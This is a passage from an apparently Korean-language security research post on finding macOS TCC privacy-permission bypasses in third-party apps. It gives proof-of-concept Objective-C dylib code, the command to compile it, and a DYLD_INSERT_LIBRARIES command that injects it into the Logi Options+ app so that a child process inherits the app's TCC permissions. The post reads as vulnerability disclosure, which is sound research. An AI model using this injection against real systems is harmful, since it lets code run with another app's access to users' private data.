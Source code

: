 
{% raw %}
```objective-c
#include <Foundation/Foundation.h>

__attribute__((constructor)) static void pwn() {

   puts("\n\n[***] Proof of concept\n\n");

   NSTask *task = [[NSTask alloc] init];
   task.launchPath = @"/Applications/TaskExplorer.app/Contents/MacOS/TaskExplorer";
   [task launch];

}
```
{% endraw %}

1. 라이브러리 컴파일

{% raw %}
```bash
$ gcc -dynamiclib -framework Foundation poc.m -o poc.dylib
```
{% endraw %}

1. 악성 라이브러리 주입

{% raw %}
```bash
$ DYLD_INSERT_LIBRARIES=/tmp/poc.dylib /Applications/logioptionsplus.app/Contents/MacOS/logioptionsplus
```
{% endraw %}

1. 결과

	![6](/assets/img/2024-04-15-Methodology-for-discovering-TCC-Bypass-vulnerabilities-in-3rd-party-Applications.md/6.png)


Logi Options 애플리케이션의 자식 프로세스로 임의의 프로세스인 TaskExplorer가 생성되었다. 이는 임의의 프로세스가 Logi Options 애플리케이션 컨텍스트 내에서 실행되므로 해당 앱이 가진 모든 TCC 권한을 남용할 수 있다는 것을 뜻한다.
